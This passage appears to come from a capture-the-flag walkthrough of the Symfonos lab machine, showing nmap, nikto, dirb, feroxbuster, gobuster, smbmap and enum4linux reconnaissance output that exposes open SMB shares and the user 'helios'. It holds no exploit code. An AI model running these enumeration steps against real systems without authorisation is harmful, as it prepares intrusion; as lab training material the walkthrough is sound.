139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 08:00:27:F6:E0:E7 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-enum-sessions:
|_  <nobody>
|_msrpc-enum: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-mbenum:
|   DFS Root
|     SYMFONOS  0.0  Samba 4.5.16-Debian
|   Master Browser
|     SYMFONOS  0.0  Samba 4.5.16-Debian
|   Print server
|     SYMFONOS  0.0  Samba 4.5.16-Debian
|   Server
|     SYMFONOS  0.0  Samba 4.5.16-Debian
|   Server service
|     SYMFONOS  0.0  Samba 4.5.16-Debian
|   Unix server
|     SYMFONOS  0.0  Samba 4.5.16-Debian
|   Windows NT/2000/XP/2003 server
|     SYMFONOS  0.0  Samba 4.5.16-Debian
|   Workstation
|_    SYMFONOS  0.0  Samba 4.5.16-Debian
| smb-enum-users:
|   SYMFONOS\helios (RID: 1000)
|     Full name:
|     Description:
|_    Flags:       Normal user account
| smb-enum-shares:
|   account_used: guest
|   \\192.168.56.88\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (Samba 4.5.16-Debian)
|     Users: 5
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\192.168.56.88\anonymous:
|     Type: STYPE_DISKTREE
|     Comment:
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\usr\share\samba\anonymous
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\192.168.56.88\helios:
|     Type: STYPE_DISKTREE
|     Comment: Helios personal share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\helios\share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\192.168.56.88\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
| smb-enum-domains:
|   SYMFONOS
|     Groups: n/a
|     Users: helios
|     Creation time: unknown
|     Passwords: min length: 5; min age: n/a days; max age: n/a days; history: n/a passwords
|     Account lockout disabled
|   Builtin
|     Groups: n/a
|     Users: n/a
|     Creation time: unknown
|     Passwords: min length: 5; min age: n/a days; max age: n/a days; history: n/a passwords
|_    Account lockout disabled

TRACEROUTE
HOP RTT     ADDRESS
1   0.85 ms 192.168.56.88

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 315.51 seconds

```

## Attacking web

The usual commands need firing.

1. nikto
2. dirb
3. feroxbuster
4. gobuster

### nikto

```shell
nikto -C all -host http://$RHOST | tee nikto.txt
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.88
+ Target Hostname:    192.168.56.88
+ Target Port:        80
+ Start Time:         2022-01-04 12:26:53 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.25 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.25 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 148, size: 58c6b9bb3bc5b, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 26522 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2022-01-04 12:28:13 (GMT5.5) (80 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

```shell
tail -n2 /etc/hosts
192.168.56.88 symfonos.local

```

```shell
nikto -C all -host http://symfonos.local | tee nikto.symfonos-local.txt
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.88
+ Target Hostname:    symfonos.local
+ Target Port:        80
+ Start Time:         2022-01-04 12:32:56 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.25 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.25 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 148, size: 58c6b9bb3bc5b, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 26392 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2022-01-04 12:34:13 (GMT5.5) (77 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```




### scan image.jpg

```shell
wget -q $RHOST/image.jpg

```

```shell
ls -la image.jpg
-rw-r--r-- 1 f0c1s f0c1s 98343 Jun 29  2019 image.jpg

```


```shell
exiftool image.jpg
ExifTool Version Number         : 12.36
File Name                       : image.jpg
Directory                       : .
File Size                       : 96 KiB
File Modification Date/Time     : 2022:01:04 12:33:38+05:30
File Access Date/Time           : 2022:01:04 12:33:38+05:30
File Inode Change Date/Time     : 2022:01:04 12:33:38+05:30
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Comment                         : File source: https://commons.wikimedia.org/wiki/File:Peter_Paul_Rubens_-_The_Fall_of_Phaeton_(National_Gallery_of_Art).jpg
Image Width                     : 800
Image Height                    : 597
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 800x597
Megapixels                      : 0.478

```

There is nothing here except a link to wiki.



### feroxbuster

```shell
feroxbuster -q -u http://symfonos.local -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --rate-limit 100 -d 2 -L 4 -k
301        9l       28w      317c http://symfonos.local/manual
301        9l       28w      324c http://symfonos.local/manual/images
301        9l       28w      320c http://symfonos.local/manual/en
301        9l       28w      320c http://symfonos.local/manual/de
301        9l       28w      320c http://symfonos.local/manual/fr
301        9l       28w      320c http://symfonos.local/manual/es
301        9l       28w      320c http://symfonos.local/manual/tr
301        9l       28w      323c http://symfonos.local/manual/style
301        9l       28w      320c http://symfonos.local/manual/ja
301        9l       28w      320c http://symfonos.local/manual/da
301        9l       28w      320c http://symfonos.local/manual/ko
301        9l       28w      323c http://symfonos.local/manual/zh-cn
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_symfonos_local-1641280044.state ...
Scanning: http://symfonos.local
Scanning: http://symfonos.local/manual

```

### dirb

```shell
dirb http://symfonos.local -S

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Jan  4 12:38:08 2022
URL_BASE: http://symfonos.local/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Silent Mode

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://symfonos.local/ ----
+ http://symfonos.local/index.html (CODE:200|SIZE:328)
==> DIRECTORY: http://symfonos.local/manual/
+ http://symfonos.local/server-status (CODE:403|SIZE:302)

---- Entering directory: http://symfonos.local/manual/ ----
==> DIRECTORY: http://symfonos.local/manual/da/
==> DIRECTORY: http://symfonos.local/manual/de/
==> DIRECTORY: http://symfonos.local/manual/en/
==> DIRECTORY: http://symfonos.local/manual/es/
==> DIRECTORY: http://symfonos.local/manual/fr/
==> DIRECTORY: http://symfonos.local/manual/images/
+ http://symfonos.local/manual/index.html (CODE:200|SIZE:626)
==> DIRECTORY: http://symfonos.local/manual/ja/
==> DIRECTORY: http://symfonos.local/manual/ko/
==> DIRECTORY: http://symfonos.local/manual/style/
==> DIRECTORY: http://symfonos.local/manual/tr/
==> DIRECTORY: http://symfonos.local/manual/zh-cn/

---- Entering directory: http://symfonos.local/manual/da/ ----
==> DIRECTORY: http://symfonos.local/manual/da/developer/
==> DIRECTORY: http://symfonos.local/manual/da/faq/
==> DIRECTORY: http://symfonos.local/manual/da/howto/
+ http://symfonos.local/manual/da/index.html (CODE:200|SIZE:9117)
==> DIRECTORY: http://symfonos.local/manual/da/misc/
==> DIRECTORY: http://symfonos.local/manual/da/mod/
==> DIRECTORY: http://symfonos.local/manual/da/programs/
==> DIRECTORY: http://symfonos.local/manual/da/ssl/

---- Entering directory: http://symfonos.local/manual/de/ ----
==> DIRECTORY: http://symfonos.local/manual/de/developer/
==> DIRECTORY: http://symfonos.local/manual/de/faq/
==> DIRECTORY: http://symfonos.local/manual/de/howto/
+ http://symfonos.local/manual/de/index.html (CODE:200|SIZE:9544)
==> DIRECTORY: http://symfonos.local/manual/de/misc/
==> DIRECTORY: http://symfonos.local/manual/de/mod/
==> DIRECTORY: http://symfonos.local/manual/de/programs/
==> DIRECTORY: http://symfonos.local/manual/de/ssl/

---- Entering directory: http://symfonos.local/manual/en/ ----
==> DIRECTORY: http://symfonos.local/manual/en/developer/
==> DIRECTORY: http://symfonos.local/manual/en/faq/
==> DIRECTORY: http://symfonos.local/manual/en/howto/
+ http://symfonos.local/manual/en/index.html (CODE:200|SIZE:9352)
==> DIRECTORY: http://symfonos.local/manual/en/misc/
==> DIRECTORY: http://symfonos.local/manual/en/mod/
==> DIRECTORY: http://symfonos.local/manual/en/programs/
==> DIRECTORY: http://symfonos.local/manual/en/ssl/

---- Entering directory: http://symfonos.local/manual/es/ ----
==> DIRECTORY: http://symfonos.local/manual/es/developer/
==> DIRECTORY: http://symfonos.local/manual/es/faq/
==> DIRECTORY: http://symfonos.local/manual/es/howto/
+ http://symfonos.local/manual/es/index.html (CODE:200|SIZE:9810)
==> DIRECTORY: http://symfonos.local/manual/es/misc/
==> DIRECTORY: http://symfonos.local/manual/es/mod/
==> DIRECTORY: http://symfonos.local/manual/es/programs/
==> DIRECTORY: http://symfonos.local/manual/es/ssl/

---- Entering directory: http://symfonos.local/manual/fr/ ----
==> DIRECTORY: http://symfonos.local/manual/fr/developer/
==> DIRECTORY: http://symfonos.local/manual/fr/faq/
==> DIRECTORY: http://symfonos.local/manual/fr/howto/
+ http://symfonos.local/manual/fr/index.html (CODE:200|SIZE:9655)
==> DIRECTORY: http://symfonos.local/manual/fr/misc/
==> DIRECTORY: http://symfonos.local/manual/fr/mod/
==> DIRECTORY: http://symfonos.local/manual/fr/programs/
==> DIRECTORY: http://symfonos.local/manual/fr/ssl/

---- Entering directory: http://symfonos.local/manual/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://symfonos.local/manual/ja/ ----
==> DIRECTORY: http://symfonos.local/manual/ja/developer/
==> DIRECTORY: http://symfonos.local/manual/ja/faq/
==> DIRECTORY: http://symfonos.local/manual/ja/howto/
+ http://symfonos.local/manual/ja/index.html (CODE:200|SIZE:9935)
==> DIRECTORY: http://symfonos.local/manual/ja/misc/
==> DIRECTORY: http://symfonos.local/manual/ja/mod/
==> DIRECTORY: http://symfonos.local/manual/ja/programs/
==> DIRECTORY: http://symfonos.local/manual/ja/ssl/

---- Entering directory: http://symfonos.local/manual/ko/ ----
==> DIRECTORY: http://symfonos.local/manual/ko/developer/
==> DIRECTORY: http://symfonos.local/manual/ko/faq/
==> DIRECTORY: http://symfonos.local/manual/ko/howto/
+ http://symfonos.local/manual/ko/index.html (CODE:200|SIZE:8585)
==> DIRECTORY: http://symfonos.local/manual/ko/misc/
==> DIRECTORY: http://symfonos.local/manual/ko/mod/
==> DIRECTORY: http://symfonos.local/manual/ko/programs/
==> DIRECTORY: http://symfonos.local/manual/ko/ssl/

---- Entering directory: http://symfonos.local/manual/style/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://symfonos.local/manual/tr/ ----
==> DIRECTORY: http://symfonos.local/manual/tr/developer/
==> DIRECTORY: http://symfonos.local/manual/tr/faq/
==> DIRECTORY: http://symfonos.local/manual/tr/howto/
+ http://symfonos.local/manual/tr/index.html (CODE:200|SIZE:9569)
==> DIRECTORY: http://symfonos.local/manual/tr/misc/
==> DIRECTORY: http://symfonos.local/manual/tr/mod/
==> DIRECTORY: http://symfonos.local/manual/tr/programs/
==> DIRECTORY: http://symfonos.local/manual/tr/ssl/

---- Entering directory: http://symfonos.local/manual/zh-cn/ ----
==> DIRECTORY: http://symfonos.local/manual/zh-cn/developer/
==> DIRECTORY: http://symfonos.local/manual/zh-cn/faq/
==> DIRECTORY: http://symfonos.local/manual/zh-cn/howto/
+ http://symfonos.local/manual/zh-cn/index.html (CODE:200|SIZE:8955)
==> DIRECTORY: http://symfonos.local/manual/zh-cn/misc/
==> DIRECTORY: http://symfonos.local/manual/zh-cn/mod/
==> DIRECTORY: http://symfonos.local/manual/zh-cn/programs/
==> DIRECTORY: http://symfonos.local/manual/zh-cn/ssl/

---- Entering directory: http://symfonos.local/manual/da/developer/ ----
+ http://symfonos.local/manual/da/developer/index.html (CODE:200|SIZE:6030)

---- Entering directory: http://symfonos.local/manual/da/faq/ ----
+ http://symfonos.local/manual/da/faq/index.html (CODE:200|SIZE:3880)

---- Entering directory: http://symfonos.local/manual/da/howto/ ----
+ http://symfonos.local/manual/da/howto/index.html (CODE:200|SIZE:8186)

---- Entering directory: http://symfonos.local/manual/da/misc/ ----
+ http://symfonos.local/manual/da/misc/index.html (CODE:200|SIZE:5182)

---- Entering directory: http://symfonos.local/manual/da/mod/ ----
+ http://symfonos.local/manual/da/mod/index.html (CODE:200|SIZE:22915)

---- Entering directory: http://symfonos.local/manual/da/programs/ ----
+ http://symfonos.local/manual/da/programs/index.html (CODE:200|SIZE:6973)

---- Entering directory: http://symfonos.local/manual/da/ssl/ ----
+ http://symfonos.local/manual/da/ssl/index.html (CODE:200|SIZE:5125)

---- Entering directory: http://symfonos.local/manual/de/developer/ ----
+ http://symfonos.local/manual/de/developer/index.html (CODE:200|SIZE:6030)

---- Entering directory: http://symfonos.local/manual/de/faq/ ----
+ http://symfonos.local/manual/de/faq/index.html (CODE:200|SIZE:3880)

---- Entering directory: http://symfonos.local/manual/de/howto/ ----
+ http://symfonos.local/manual/de/howto/index.html (CODE:200|SIZE:8186)

---- Entering directory: http://symfonos.local/manual/de/misc/ ----
+ http://symfonos.local/manual/de/misc/index.html (CODE:200|SIZE:5182)

---- Entering directory: http://symfonos.local/manual/de/mod/ ----
+ http://symfonos.local/manual/de/mod/index.html (CODE:200|SIZE:23107)

---- Entering directory: http://symfonos.local/manual/de/programs/ ----
+ http://symfonos.local/manual/de/programs/index.html (CODE:200|SIZE:6973)

---- Entering directory: http://symfonos.local/manual/de/ssl/ ----
+ http://symfonos.local/manual/de/ssl/index.html (CODE:200|SIZE:5125)

---- Entering directory: http://symfonos.local/manual/en/developer/ ----
+ http://symfonos.local/manual/en/developer/index.html (CODE:200|SIZE:6030)

---- Entering directory: http://symfonos.local/manual/en/faq/ ----
+ http://symfonos.local/manual/en/faq/index.html (CODE:200|SIZE:3880)

---- Entering directory: http://symfonos.local/manual/en/howto/ ----
+ http://symfonos.local/manual/en/howto/index.html (CODE:200|SIZE:8186)

---- Entering directory: http://symfonos.local/manual/en/misc/ ----
+ http://symfonos.local/manual/en/misc/index.html (CODE:200|SIZE:5182)

---- Entering directory: http://symfonos.local/manual/en/mod/ ----
+ http://symfonos.local/manual/en/mod/index.html (CODE:200|SIZE:22915)

---- Entering directory: http://symfonos.local/manual/en/programs/ ----
+ http://symfonos.local/manual/en/programs/index.html (CODE:200|SIZE:6973)

---- Entering directory: http://symfonos.local/manual/en/ssl/ ----
+ http://symfonos.local/manual/en/ssl/index.html (CODE:200|SIZE:5125)

---- Entering directory: http://symfonos.local/manual/es/developer/ ----
+ http://symfonos.local/manual/es/developer/index.html (CODE:200|SIZE:6030)

---- Entering directory: http://symfonos.local/manual/es/faq/ ----
+ http://symfonos.local/manual/es/faq/index.html (CODE:200|SIZE:3976)

---- Entering directory: http://symfonos.local/manual/es/howto/ ----
+ http://symfonos.local/manual/es/howto/index.html (CODE:200|SIZE:8186)

---- Entering directory: http://symfonos.local/manual/es/misc/ ----
+ http://symfonos.local/manual/es/misc/index.html (CODE:200|SIZE:5182)

---- Entering directory: http://symfonos.local/manual/es/mod/ ----
+ http://symfonos.local/manual/es/mod/index.html (CODE:200|SIZE:23281)

---- Entering directory: http://symfonos.local/manual/es/programs/ ----
+ http://symfonos.local/manual/es/programs/index.html (CODE:200|SIZE:7441)

---- Entering directory: http://symfonos.local/manual/es/ssl/ ----
+ http://symfonos.local/manual/es/ssl/index.html (CODE:200|SIZE:5125)

---- Entering directory: http://symfonos.local/manual/fr/developer/ ----
+ http://symfonos.local/manual/fr/developer/index.html (CODE:200|SIZE:6030)

---- Entering directory: http://symfonos.local/manual/fr/faq/ ----
+ http://symfonos.local/manual/fr/faq/index.html (CODE:200|SIZE:3882)

---- Entering directory: http://symfonos.local/manual/fr/howto/ ----
+ http://symfonos.local/manual/fr/howto/index.html (CODE:200|SIZE:8556)

---- Entering directory: http://symfonos.local/manual/fr/misc/ ----
+ http://symfonos.local/manual/fr/misc/index.html (CODE:200|SIZE:5483)

---- Entering directory: http://symfonos.local/manual/fr/mod/ ----
+ http://symfonos.local/manual/fr/mod/index.html (CODE:200|SIZE:24849)

---- Entering directory: http://symfonos.local/manual/fr/programs/ ----
+ http://symfonos.local/manual/fr/programs/index.html (CODE:200|SIZE:7261)

---- Entering directory: http://symfonos.local/manual/fr/ssl/ ----
+ http://symfonos.local/manual/fr/ssl/index.html (CODE:200|SIZE:5267)

---- Entering directory: http://symfonos.local/manual/ja/developer/ ----
+ http://symfonos.local/manual/ja/developer/index.html (CODE:200|SIZE:6030)

---- Entering directory: http://symfonos.local/manual/ja/faq/ ----
+ http://symfonos.local/manual/ja/faq/index.html (CODE:200|SIZE:3880)

---- Entering directory: http://symfonos.local/manual/ja/howto/ ----
+ http://symfonos.local/manual/ja/howto/index.html (CODE:200|SIZE:8009)

---- Entering directory: http://symfonos.local/manual/ja/misc/ ----
+ http://symfonos.local/manual/ja/misc/index.html (CODE:200|SIZE:5182)

---- Entering directory: http://symfonos.local/manual/ja/mod/ ----
+ http://symfonos.local/manual/ja/mod/index.html (CODE:200|SIZE:24217)

---- Entering directory: http://symfonos.local/manual/ja/programs/ ----
+ http://symfonos.local/manual/ja/programs/index.html (CODE:200|SIZE:6973)

---- Entering directory: http://symfonos.local/manual/ja/ssl/ ----
+ http://symfonos.local/manual/ja/ssl/index.html (CODE:200|SIZE:5345)

---- Entering directory: http://symfonos.local/manual/ko/developer/ ----
+ http://symfonos.local/manual/ko/developer/index.html (CODE:200|SIZE:6030)

---- Entering directory: http://symfonos.local/manual/ko/faq/ ----
+ http://symfonos.local/manual/ko/faq/index.html (CODE:200|SIZE:3880)

---- Entering directory: http://symfonos.local/manual/ko/howto/ ----
+ http://symfonos.local/manual/ko/howto/index.html (CODE:200|SIZE:6445)

---- Entering directory: http://symfonos.local/manual/ko/misc/ ----
+ http://symfonos.local/manual/ko/misc/index.html (CODE:200|SIZE:5269)

---- Entering directory: http://symfonos.local/manual/ko/mod/ ----
+ http://symfonos.local/manual/ko/mod/index.html (CODE:200|SIZE:22347)

---- Entering directory: http://symfonos.local/manual/ko/programs/ ----
+ http://symfonos.local/manual/ko/programs/index.html (CODE:200|SIZE:5845)

---- Entering directory: http://symfonos.local/manual/ko/ssl/ ----
+ http://symfonos.local/manual/ko/ssl/index.html (CODE:200|SIZE:5125)

---- Entering directory: http://symfonos.local/manual/tr/developer/ ----
+ http://symfonos.local/manual/tr/developer/index.html (CODE:200|SIZE:6030)

---- Entering directory: http://symfonos.local/manual/tr/faq/ ----
+ http://symfonos.local/manual/tr/faq/index.html (CODE:200|SIZE:3887)

---- Entering directory: http://symfonos.local/manual/tr/howto/ ----
+ http://symfonos.local/manual/tr/howto/index.html (CODE:200|SIZE:8186)

---- Entering directory: http://symfonos.local/manual/tr/misc/ ----
+ http://symfonos.local/manual/tr/misc/index.html (CODE:200|SIZE:5410)

---- Entering directory: http://symfonos.local/manual/tr/mod/ ----
+ http://symfonos.local/manual/tr/mod/index.html (CODE:200|SIZE:23193)

---- Entering directory: http://symfonos.local/manual/tr/programs/ ----
+ http://symfonos.local/manual/tr/programs/index.html (CODE:200|SIZE:7476)

---- Entering directory: http://symfonos.local/manual/tr/ssl/ ----
+ http://symfonos.local/manual/tr/ssl/index.html (CODE:200|SIZE:5267)

---- Entering directory: http://symfonos.local/manual/zh-cn/developer/ ----
+ http://symfonos.local/manual/zh-cn/developer/index.html (CODE:200|SIZE:6066)

---- Entering directory: http://symfonos.local/manual/zh-cn/faq/ ----
+ http://symfonos.local/manual/zh-cn/faq/index.html (CODE:200|SIZE:3846)

---- Entering directory: http://symfonos.local/manual/zh-cn/howto/ ----
+ http://symfonos.local/manual/zh-cn/howto/index.html (CODE:200|SIZE:6637)

---- Entering directory: http://symfonos.local/manual/zh-cn/misc/ ----
+ http://symfonos.local/manual/zh-cn/misc/index.html (CODE:200|SIZE:4878)

---- Entering directory: http://symfonos.local/manual/zh-cn/mod/ ----
+ http://symfonos.local/manual/zh-cn/mod/index.html (CODE:200|SIZE:22794)

---- Entering directory: http://symfonos.local/manual/zh-cn/programs/ ----
+ http://symfonos.local/manual/zh-cn/programs/index.html (CODE:200|SIZE:6904)

---- Entering directory: http://symfonos.local/manual/zh-cn/ssl/ ----
+ http://symfonos.local/manual/zh-cn/ssl/index.html (CODE:200|SIZE:5113)

-----------------
END_TIME: Tue Jan  4 12:39:10 2022
DOWNLOADED: 341288 - FOUND: 75

```

### gobuster


```shell
gobuster dir --url http://$RHOST/ -x js,png,py,txt,php,log,bak --wordlist=/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 404,403 -q
/manual               (Status: 301) [Size: 315] [--> http://192.168.56.88/manual/]
/server-status        (Status: 403) [Size: 301]

```


## Attacking SMB

### smbmap


```shell
smbmap -H $RHOST -u "" | tee smbmap.-H-null.txt
[+] Guest session       IP: 192.168.56.88:445   Name: symfonos.local
        Disk        Permissions     Comment
        ----        -----------     -------
        print$      NO ACCESS       Printer Drivers
        helios      NO ACCESS       Helios personal share
        anonymous   READ ONLY
        IPC$        NO ACCESS       IPC Service (Samba 4.5.16-Debian)

```

### enum4linux

```shell
enum4linux -a $RHOST | tee enum4linux.txt
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Jan  4 12:39:39 2022

 ==========================
|    Target Information    |
 ==========================
Target ........... 192.168.56.88
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =====================================================
|    Enumerating Workgroup/Domain on 192.168.56.88    |
 =====================================================
[+] Got domain/workgroup name: WORKGROUP

 =============================================
|    Nbtstat Information for 192.168.56.88    |
 =============================================
Looking up status of 192.168.56.88
        SYMFONOS        <00> -         B <ACTIVE>  Workstation Service
        SYMFONOS        <03> -         B <ACTIVE>  Messenger Service
        SYMFONOS        <20> -         B <ACTIVE>  File Server Service
        ..__MSBROWSE__. <01> - <GROUP> B <ACTIVE>  Master Browser
        WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        WORKGROUP       <1d> -         B <ACTIVE>  Master Browser
        WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-00-00-00-00-00

 ======================================
|    Session Check on 192.168.56.88    |
 ======================================
[+] Server 192.168.56.88 allows sessions using username '', password ''

 ============================================
|    Getting domain SID for 192.168.56.88    |
 ============================================
Domain Name: WORKGROUP
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup

 =======================================
|    OS information on 192.168.56.88    |
 =======================================
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for 192.168.56.88 from smbclient:
[+] Got OS info for 192.168.56.88 from srvinfo:
        SYMFONOS       Wk Sv PrQ Unx NT SNT Samba 4.5.16-Debian
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03

 ==============================
|    Users on 192.168.56.88    |
 ==============================
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: helios   Name:   Desc:

user:[helios] rid:[0x3e8]

 ==========================================
|    Share Enumeration on 192.168.56.88    |
 ==========================================

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        helios          Disk      Helios personal share
        anonymous       Disk
        IPC$            IPC       IPC Service (Samba 4.5.16-Debian)
SMB1 disabled -- no workgroup available

[+] Attempting to map shares on 192.168.56.88
//192.168.56.88/print$  Mapping: DENIED, Listing: N/A
//192.168.56.88/helios  Mapping: DENIED, Listing: N/A
//192.168.56.88/anonymous       Mapping: OK, Listing: OK
//192.168.56.88/IPC$    [E] Can't understand response:
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*

 =====================================================
|    Password Policy Information for 192.168.56.88    |
 =====================================================


[+] Attaching to 192.168.56.88 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] SYMFONOS
        [+] Builtin

[+] Password Info for Domain: SYMFONOS

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: 37 days 6 hours 21 minutes
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes
        [+] Locked Account Duration: 30 minutes
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: 37 days 6 hours 21 minutes


[+] Retieved partial password policy with rpcclient:

Password Complexity: Disabled
Minimum Password Length: 5


 ===============================
|    Groups on 192.168.56.88    |
 ===============================

[+] Getting builtin groups:

[+] Getting builtin group memberships:

[+] Getting local groups:

[+] Getting local group memberships:

[+] Getting domain groups:

[+] Getting domain group memberships:

 ========================================================================
|    Users on 192.168.56.88 via RID cycling (RIDS: 500-550,1000-1050)    |
 ========================================================================
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-3173842667-3005291855-38846888
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\helios (Local User)
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-500 *unknown*\*unknown* (8)
S-1-5-32-501 *unknown*\*unknown* (8)
S-1-5-32-502 *unknown*\*unknown* (8)
S-1-5-32-503 *unknown*\*unknown* (8)
S-1-5-32-504 *unknown*\*unknown* (8)
S-1-5-32-505 *unknown*\*unknown* (8)
S-1-5-32-506 *unknown*\*unknown* (8)
S-1-5-32-507 *unknown*\*unknown* (8)
S-1-5-32-508 *unknown*\*unknown* (8)
S-1-5-32-509 *unknown*\*unknown* (8)
S-1-5-32-510 *unknown*\*unknown* (8)
S-1-5-32-511 *unknown*\*unknown* (8)
S-1-5-32-512 *unknown*\*unknown* (8)
S-1-5-32-513 *unknown*\*unknown* (8)
S-1-5-32-514 *unknown*\*unknown* (8)
S-1-5-32-515 *unknown*\*unknown* (8)
S-1-5-32-516 *unknown*\*unknown* (8)
S-1-5-32-517 *unknown*\*unknown* (8)
S-1-5-32-518 *unknown*\*unknown* (8)
S-1-5-32-519 *unknown*\*unknown* (8)
S-1-5-32-520 *unknown*\*unknown* (8)
S-1-5-32-521 *unknown*\*unknown* (8)
S-1-5-32-522 *unknown*\*unknown* (8)
S-1-5-32-523 *unknown*\*unknown* (8)
S-1-5-32-524 *unknown*\*unknown* (8)
S-1-5-32-525 *unknown*\*unknown* (8)
S-1-5-32-526 *unknown*\*unknown* (8)
S-1-5-32-527 *unknown*\*unknown* (8)
S-1-5-32-528 *unknown*\*unknown* (8)
S-1-5-32-529 *unknown*\*unknown* (8)
S-1-5-32-530 *unknown*\*unknown* (8)
S-1-5-32-531 *unknown*\*unknown* (8)
S-1-5-32-532 *unknown*\*unknown* (8)
S-1-5-32-533 *unknown*\*unknown* (8)
S-1-5-32-534 *unknown*\*unknown* (8)
S-1-5-32-535 *unknown*\*unknown* (8)
S-1-5-32-536 *unknown*\*unknown* (8)
S-1-5-32-537 *unknown*\*unknown* (8)
S-1-5-32-538 *unknown*\*unknown* (8)
S-1-5-32-539 *unknown*\*unknown* (8)
S-1-5-32-540 *unknown*\*unknown* (8)
S-1-5-32-541 *unknown*\*unknown* (8)
S-1-5-32-542 *unknown*\*unknown* (8)
S-1-5-32-543 *unknown*\*unknown* (8)
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
